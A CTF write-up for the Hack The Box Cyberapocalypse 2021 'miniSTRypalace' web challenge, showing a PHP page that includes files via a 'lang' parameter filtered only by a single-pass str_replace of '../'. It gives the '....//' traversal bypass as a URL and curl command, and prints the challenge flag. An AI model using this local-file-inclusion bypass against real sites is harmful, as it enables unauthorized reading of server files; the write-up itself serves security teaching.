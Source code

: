 ```yaml
---
slug: ministrypalace-cyberapocalypse-2021-ctf
title: miniSTRypalace - Cyberapocalypse 2021 CTF
description: This is a writeup for the miniSTRypalace challenge, part of the Hack the box's Cyberapocalypse CTF 2021, category Web.
authors: kiroki
tags: [Cyber Security, CTF]
---
```


This is a writeup for the miniSTRypalace challenge, part of the Hack the box's Cyberapocalypse CTF 2021, category Web.

### Prompt

Let’s read this website in the language of Alines. Or maybe not?

<!-- truncate -->

### Recon

We get the source code for a website, and we're informed by a docker environment setup, that the flag will be at the root of the system.

```
# Dockerfile
[redacted]

# Copy challenge files
COPY challenge /www
COPY flag /

[redacted]
```

From the source code, we can see that this is a PHP application, and we can inspect the `index.php` file.

```php
<html>
    <header>
        <meta name='author' content='bertolis, makelaris'>
        <title>Ministry of Defence</title>
        <link rel="stylesheet" href="/static/css/main.css">
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootswatch/4.5.0/slate/bootstrap.min.css"   >
    </header>

    <body>
    <div class="language">
        <a href="?lang=en.php">EN</a>
        <a href="?lang=qw.php">QW</a>
    </div>

    <?php
    $lang = ['en.php', 'qw.php'];
        include('pages/' . (isset($_GET['lang']) ? str_replace('../', '', $_GET['lang']) : $lang[array_rand($lang)]));
    ?>
    </body>
</html>
```

### Analysis

We see from the PHP file, that the query param `lang` will include a file from the filesystem. Its main use is to provide us with language support by using either `en.php` or `qw.php` as language files, but we see other uses for it - namely **local file inclusion**.

The only problem, is that there is a `str_replace` method being called, which removes any string of the form `../` from the query. But we need `../` to get to the root directory, where the flag is.

### Solution

Since `str_replace` will run through our string only once, all we need to do is supply a buffer to the string `../` by making it for example into `....//` or  `.../...//`, or anything similar to that.

So, all we have to do is navigate to the following url

```
http://<vulnerablesite:port>/?lang=....//....//flag
```

Or, if we want to be cheeky, we can script this by running

```sh
curl http://<vulnerablesite:port>/?lang=....//....//flag | grep CHTB{.*} --color=none
```

To directly get our flag as output

```
CHTB{b4d_4li3n_pr0gr4m1ng}
```